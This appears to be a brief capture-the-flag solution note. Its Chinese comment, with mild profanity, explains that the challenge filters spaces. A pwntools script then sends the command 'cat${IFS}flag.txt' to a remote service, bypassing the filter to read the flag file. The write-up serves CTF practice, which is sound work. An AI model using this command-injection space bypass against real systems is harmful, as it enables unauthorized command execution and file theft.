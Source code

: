 好蠢啊wc，这个题只能限制输入一个word的意思就是过滤了空格，妈的直接绕空格就行了，原本应该是很熟练的

```python
from pwn import *
context.log_level = 'debug'
# 创建远程连接
p = remote('184.72.87.9','8008')
p.recv()
p.sendline("cat${IFS}flag.txt")
p.recv()
```

